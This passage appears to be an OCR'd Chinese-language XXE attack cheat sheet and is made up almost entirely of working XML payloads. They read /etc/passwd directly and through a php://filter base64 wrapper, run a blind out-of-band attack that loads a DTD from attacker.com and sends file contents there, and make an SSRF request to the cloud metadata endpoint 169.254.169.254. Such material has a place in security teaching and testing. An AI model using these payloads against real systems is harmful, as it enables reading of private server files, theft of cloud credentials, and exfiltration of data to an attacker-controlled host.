 ```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>&xxe;</data>
```

### Base64 编码的 XXE

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
]>
<data>&xxe;</data>
```

### XXE 盲注

当响应中不直接显示文件内容时，可以使用带外技术（OOB）提取数据：

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>
<data>&send;</data>
```

`evil.dtd` 内容：
```xml
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?data=%file;'>">
%all;
```

## XXE 攻击场景

### 1. 读取本地文件
```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<user>&xxe;</user>
```

### 2. 服务器端请求伪造 (SSRF)
```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">
]>
<data>&xxe;</data>
```
